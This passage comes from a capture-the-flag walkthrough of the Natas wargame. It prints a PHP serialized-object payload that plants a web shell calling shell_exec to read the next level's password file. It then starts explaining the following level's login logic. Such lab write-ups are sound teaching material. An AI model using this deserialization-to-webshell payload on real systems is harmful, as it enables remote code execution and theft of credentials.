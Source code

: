 Now, let's change the **$exitMsg** to a php payload that will echo the password for the next level

```php
<?php
class Logger {
	private $logFile;
    private $initMsg;
    private $exitMsg;
        
	function __construct(){
            $this->initMsg="#<h1>Hello World</h1>";
            $this->exitMsg="<?php echo shell_exec('cat /etc/natas_webpass/natas27')?>";
            $this->logFile = "/var/www/natas/natas26/img/njeeh.php";
	}
}

$logger = new Logger();
$encoded = base64_encode(serialize($logger));
echo $encoded;
?>
```

![alt text](NatasScreenshots/27.3.png)

Perfect!

# Level 28

The logic in this level is simple. We type a username and a password. If the username does not exist, it creates it mapped with the password provided. If it does, it checks if the provided password matches the one saved from its creation. If it does, it welcomes you and give you the credentials for that username. If not, it says wrong password for that user.

If we put **natas28** as username and some random password, it will say that the password is wrong which means the account already exists and it holds the password we're looking for and logging in to it will reveal the password.
